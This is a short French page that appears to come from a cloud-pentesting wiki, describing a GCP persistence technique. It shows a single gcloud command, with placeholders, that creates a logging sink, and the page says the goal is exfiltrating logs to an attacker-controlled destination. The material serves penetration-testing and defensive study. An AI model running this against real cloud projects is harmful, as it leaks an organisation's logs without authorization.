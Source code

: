 # GCP - Logging Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Logging

Trouvez plus d'informations sur Logging dans :

{{#ref}}
../gcp-services/gcp-logging-enum.md
{{#endref}}

### `logging.sinks.create`

Créez un sink pour exfiltrer les journaux vers une destination accessible aux attaquants :
```bash
gcloud logging sinks create <sink-name> <destination> --log-filter="FILTER_CONDITION"
```
{{#include ../../../banners/hacktricks-training.md}}
